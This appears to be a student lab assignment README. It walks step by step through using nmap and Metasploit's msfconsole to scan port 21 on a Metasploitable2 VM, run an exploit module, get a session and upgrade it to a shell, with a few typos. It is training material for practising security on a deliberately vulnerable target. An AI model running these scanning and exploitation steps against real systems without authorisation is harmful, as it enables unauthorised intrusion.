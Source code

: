 
# Assignment 1(16-09-2024)


## How to Connect Two Systems Using MSFConsole

This assignment is about how to connect two systems (computers or virtual machines) using MSFConsole, which is a tool in the Metasploit Framework.
## In this assignment, we connect kali linux with Metasploitable2

#### How to connect 
step 1
- start mataslpoitable2 find its ip command using 'ifconfig' and and ping with linux machine using command


```bash
ping 'metasloitable2 ip'
```

step 2
- start nmap and scan 'metasloitable2 ip' using
```bash
nmap -p 21 192.168.241.129
```


step 3
- scan for version of port
```bash
map -p 21 'metasloitable2 ip' -sV
```


step 4 
- open new tab of terminal and type command
```bash
msfconsole
```


step 5 
- search for that version
```bash
search 'version'
```


step 6 
```bash
use 0
```


step 7 
```bash
options
```


step 8 
```bash
set RHOSTS 'metasloitable2 ip'
```


step 9 
```bash
run
```


step 10 
```bash
sessions
```


step 11
- upgrading the session
```bash
sessions -u 1
```


step 12
```bash
sessions
```


step 13 
- select session id 2
```bash
sessions 2
```


now we gain access of metasploitable2 system
## 2nd part

find Host IPs and open Ports to login anonymously

![Screenshot_151](https://github.com/user-attachments/assets/09f51e5b-4c85-4d50-8fe7-939974c582a1)


![Screenshot_152](https://github.com/user-attachments/assets/e69649ea-4d27-4c64-862b-a924fea7b539)


![Screenshot_153](https://github.com/user-attachments/assets/71aa7b22-1b45-4805-92f5-a2dccb4b182b)


